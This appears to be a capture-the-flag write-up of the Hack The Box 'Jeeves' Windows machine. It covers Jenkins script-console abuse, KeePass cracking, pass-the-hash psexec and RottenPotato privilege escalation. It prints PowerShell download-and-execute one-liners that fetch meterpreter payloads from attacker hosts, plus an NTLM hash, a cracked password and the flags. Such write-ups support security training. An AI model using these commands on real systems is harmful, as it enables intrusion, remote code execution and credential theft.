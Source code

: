 ```yaml
---
layout: post
title:  "HTB Jeeves Windows"
tags: HTB, groovy, rottenpotato, john2keepass
---
```


# Recon
1. Nmap
```ruby
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```
2. We Dirbuster to find out the directories running on port 50000
![](https://lh3.googleusercontent.com/_afaZLU2r7PSsRJNlxpfM8UkyjsVbg6g8-1q85Q31pA-5CB_W0-cBRwACFTsE3cod1P26WJo78fFhm3EfoTMnTRoUzNeu223cJ20e1OGONEm8cr4S32otLqEsOEmdKU-va4vkY8eYdc1yCsL0H5tTxNEs5G595qg540jwIVNptwK2XqpEf3jtUgdMY7dt-wPnFLbydXqY05RKIRAvS5uCc9gzmYazY2XIDJY4ytIXmW-z0rGHLZeYilfeoZGdkaY5ei7P8ja2Pv2SL4aPq2lINQL5zS7_H18WLcY-pGSGe9yooMTpZlH5W45fsqn5eA4daF0OZ8bGnSBJJeJTyJT05KXz-CGwsJtEWxmbyTJzrN0IhkEE5nZl0XJ1gPTzuv4kNDFP1OvDefKYTLL3fKxJZZoVKtW7SJAdye7Ul6NimfGXyGvGnrdJIi--lQpKuS9wilTDRAHw6R7pWc13AjelcsL0LtUc-1s8tDxV02KJm-KdHXEDXUviW5n915DxNK8gfRnCdnR5i9qtiz0rqaB0F6kJ114EhwwC4qMKfnyu42rMQbGrebQXGLQRqY2-O41EG7Fp5t_NgJFq3Ulin7nbT3NzRfqM8N5SuCwPYhCqQBlsWF824xZzqonarSURAPU0hAoBmsF-UWXB0HfV9m11tdDJU-OycSAgW5daX-ty4aSU2LiT2a7IvA=w584-h209-no)

3. /askjeeves/ has a Jekins app running
![](https://lh3.googleusercontent.com/Jj_T1StwVe2aThqjKb8ybZ3Ythca4n9qyXUwzI0SnGlu_QoIU1wknCBMWre8iu7hq7qx27D6Ypo_rGBWsguoiwYiEnNMpYlMirqT_HUIzl6QQcoS0bbg7oLsAfc57D8iOVkh9sUiOzVxJ2TkPTa_TIUhwSpNhZE5OHkEJwKiZJs5VCuV9hflHd5vXp4mM8iDlhdEMYotLpDtuQRxxjwXotZyfQtWy59PAcGn1mzTPyTbBNwxkIBlYf_HxMXugwl8P25YDWc8Gqei_npEvzSFTIEwGrbdy-XeW-jk0HZoJ2TwherUMO01qV7ITn-v4_uX5GbLhgKP3iMqy2VqtjYGNVRn28nseTHok0AN9sRcoSIyTaPqUn_-5ErL2h3_JIipQSetVYsosRv55wCUVji94bKP8HDPnKuhGKwt_87D9E2SRo9OL4sHs9EaHsBzfxVmZSEDK1pZJ6NEhZsOmzWeuOjjOpXOojvpP32C09eKfymOJHtKTCZ_PR2Edr9xSVuewwRZ605eCjPYjbkTU5FN3zjoKinaUTkCreIqnc_AIVmNp2fwDtYtS_AdWCg3gJJ5iaWjB4sxo4iKw1D9Pm2gzYno3pJ8exVsC8aDZKB7uZU9UWH4YMivbUSS2HjmJz_cLeWBUDEirs-8FiumgfXEwQuabGMbi5cjEHkDilL8PXhLXPtjEGoWqEA=w632-h364-no)

4. To get admin without authenticating:
```ruby
http://10.10.10.63:50000/askjeeves/securityRealm/user/admin/
```

# Exploitation Method 1

1. On Jenkins create a new Item “Execute Windows bash command” and select “Freestyle Project”
2. Select “Add building Step” and select  “Execute Windows bash command” 
3. On the bash console type:
```ruby
powershell wget "http://10.10.14.14/peterpreter.exe" -outfile "meterpreter.exe" 
```
![](https://lh3.googleusercontent.com/YDkMzr-vtiHmFXOcfFhQ-jH7jwJHqIA4mG4VtCR5_4V5ddTdi5DNFvuYu0_iUxyFGg0mYeDa01p2dWkin60m-wXyvGVl3T2jdiAD9fkGPeCyQRobjP6idpoJ1euKxPaDeQpy-KF7P049lf4x61VASqfhxHpgX_Te_1K7_KPRhIUCwyOzxlwtcKH5y891IF2gyIJk6qNwPyGUgfypQLVWTBzUksJfSUE_dfyOFUWeUVQtK5dSw4YHeNRKlHUu_wZkRf8uRfpuiiCbZnCrYJo08-ZVSDvq7WLYLP7_sfMQvybWlsuXdM8ey_4fyVJutkeu2oYdXRDtBOU22ZROYG5N5kXXvo-8dfKJlhJIC_LMCmEbO7vYjekIXCfJUnHfGwvuf92By4OASnShb63mQpC0ELRs0U0u5WYWkAWBKJdYrxLabjuwjt6dqT_PIjeq9wbrdLlLvN0Zt4ylq_wiyrMLLdrs-EecKC-BDNc24pwU1ZQA1Xkg3JNWCzAYWKV82N8E5QfKroZoWkgWRspDH-x-r3_Y4PFNMBzG7NAhDh2FHsm_aUZgXZubmhmbdAkRfSg5oGgrVTcCdDVhGPYFpglpjAX_7f6_29ZLRUWzdAf29SOyfeDORA_g6Wnu9sY32BjpIeKENlQKpSVjiz9UwepfZDeMxUq_7_HHO_tWEu7MDk3T5Kf8TrIGo9s=w970-h314-no)

4. Start apache and place meterpreter.exe file for download 
5. Set up multi/handler
6. Run the shell on jenkins 
 

# Privilege Escalation Method 1
1. Download CEH.kdbx keepass file
2. Use john2keepass to create a hashdump file
3. crack the has using john format=KeePass and wordlist=rockyou.txt
4. we obtain the pass : CEH:moonshine1
5. Install Keepass2 : apt-get install keepass2
6. NTLM hash: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
7. Using msf windows smb to connect using the keepass creds   
```ruby
use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > set rhost 10.10.10.63
msf exploit(windows/smb/psexec) > set smbuser administrator
msf exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
msf exploit(windows/smb/psexec) > set lport 8888
msf exploit(windows/smb/psexec) > exploit
```
8. There is an alternate data stream applied to the ROOT flag. to view flag
dir /R
more < hm.txt:root.txt

# Exploitation Method 2
1. On Jenkins, create a reverser Groovy shell on the “script console” under “manage Jenkins” tab and run it
![](https://lh3.googleusercontent.com/FQ5o3fWatVzanE6muqXIeYxVxlS8jQPi6Bv8_U5FUys52OShe0tsZ4D6rlHXkyLFGibxeeLQRIHHcyoBpviboovTRMaBXEqb6o5THcYwj61z0rj1JnDcdDkV8dbvp7PD-cm7xzZgpMWPIpRXZ0xs6MYARFaQI4jUb2tjIC2KM2qzWnPFOkHES1Lgdq88OEtn-2mdg2uNf3fa_6jal1iQP34tn7m_JjvE4ssIVQWENE-F_bPJ_C-jPvohYjL_5chRkq1Kx_LKAKMyaF6e-msKgVOSaSEySgrhC3c6vtmUFtD5hSy4EjrxadEcsVs0m_QcqJxcBLLdAbGCeu_AgXzHuThcB9yozRZLTHi5NRipm6cmE56XYLGM4n-7wcr04P7IT5EPjbblF8bW5eFBuCx50z6fOkQTNbVyqJT-UAj6flFYpgzepqkJ_iY2Gd98EO6pPCMyh0-TSfGozdMyfSYCRns0eDiEK3em0_IJDtUSTcTtcr9MtcumII-3hTZbIKX0mWotQ8125hiaM-fnJT4iBlFp0obvK7sroscqZn98mpa65Gy_6iOfHml05eIVQZxiM9gAV1Zm7j0itM8Q95oXnOys2HJyAakhnqV-3CX8cz0eIj9ZxMBZ97MTo7IfaWprlmx16hOODWA5PVCzyxXb80MXjzLVhwZ9Lt9n9QOYg81xVttQpxVmPKI=w503-h125-no)

2. Set up an nc listener to recieve the shell
3. Spawn a meterpreter shell:
```ruby
use exploit/multi/script/web_delivery
msf exploit(multi/script/web_delivery) > set target 2
msf exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > set lhost 10.10.14.28
msf exploit(multi/script/web_delivery) > set srvhost 10.10.14.28
msf exploit(multi/script/web_delivery) > exploit
```
4. We paste the following generated code into the netcat listener and meterpreter session should be created
```ruby
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
```
![](https://lh3.googleusercontent.com/cWUwdooZ0YmIq8lxngjJOvsdkv12Wn4IHBeoHD_JyecTa_NWPth3Smo34rumlM0lWemLXHI4yTHgA7ckuq9mJZz0atCu8Ehaxjr207WEBVlpmzCJUgRK-aMFfOVZX6nCs7LBF8QdYQwPtVsj-l8ppm8g5qcswPARi83sk9PY82rTABlC1IH6jWpC2wF0HwPI6bzV6rwSYRKcdq6jw5y3FhQiaRu9UEvEOAK6uVpTcIdo-0f7G-68Qoj9d2YFPxGPkcvFwnGFMu4MPDYQVES6a6HCAVI4ForSBJdmZFi83obZYVcWhMSXCOEzwaF3ru1PwextetH8J4KkVqzfu54NIchmHzzItE0opaMcld6y2_Zk41KqUx-BbGrWR4lqzMrI3zV_J6UmfMrm8QEgRds6CUVWiGTRutdEXkPaPTfegCDKMwQyQ4ntls48u_if0mXYgzI4cVICHX82HirOYw8gnFjnB_r5avyTPOUh3PpAw9t4pLVvV_hBzKuSIuXNxZ6i9pPD87B79rr4KKn8-FkaJGv0MsOjPVYe-EW_YgVzT-955tZM-NK7Xrk5KkL874ey0IxpzsMdouflQkOJDu0gtaEsHOmE-IzB0AbbcTYgZRur8B3aNNV7sKxhkihedFuiYSLCmR4_oTSpW_Eq9rMblbUXywBvVfjgvAzPSr1wAM54O4qtgGWU2IM=w601-h240-no)
![](https://lh3.googleusercontent.com/4geGjhzpOMMJVbYdiXGbEOjRrG6fsO62THAFzVeRBt82R4xT3T-D7Te39MY-_8V-gmute5NX_tHh89Zkt_f2YCjem3ibxspd9VzBRTMHE0rTotUSvYzBNbvJ4mX1C3XzSI9d_Dv0sm44DQoYkfRI-TAsqBNJhAG7XuQ_YJQEiLU0vOD8ONN2h0NP4RZGQbLUTJM3JoZsr1v4zoJcM4opPthsqa3eitbAPsmgb6DJTL21Z-mYiiMsemkoVRtqITd2QbXtUZH9ye6UsJZJCGYcEnvCQ_T9rl5mSBWtYFq4Nb_bQIWB5K-xhwegATF79SbfgOb0jfBzAt16Htwoqyym9nt-NyHUzhynQjaO3ouOvLyZAIS3Y8B4gDO6B6c4-X8dTHLXq_o6x7-3tScUfgw7EaWhhHTm_6rQuwez7g_o9zh24RgCi-kgjlHrwev9KwNRU508Dog4Ze3JVeewLX9OUXJ5DxBMm7RkiuLQvHdeBnvmzYAe3d3htrIFuJv3TEJN942rxS1uxcBb5HhA6wO5arpA8OiWK_8Bd4VGQbwEjVpnmnjDECIDkGV41CSN1B1ZvQZgbr3qHgWH-WYn-WCXQB3Zx4tuR-xDj_fvRt3J3VzxUZ0ayTwTBHDBWr_BHznKcs4N1YdzecsLIpQ-EDlvIox7Ojzzyq9NHFXefheTVbzxgCSv55UU82k=w627-h269-no)
# Privilege Escalation Method 2

1. Use Windows Exploit Suggesters
2. We use the Vuln MS16-075 and we upload RottenPotato.exe to the target machine
3. then we load meterpretert incognito: load incognito
4. we execute the rottenpotato.exe file
5. then we type:

```ruby
impersonate_token "NT AUTHORITY\SYSTEM"
```
and finally we get root level access.

# Flags
```ruby
| ROOT | afbc5bd4b615a60648cec41c6ac92530 |
| USER | e3232272596fb47950d59c4cf1e7066a |
```



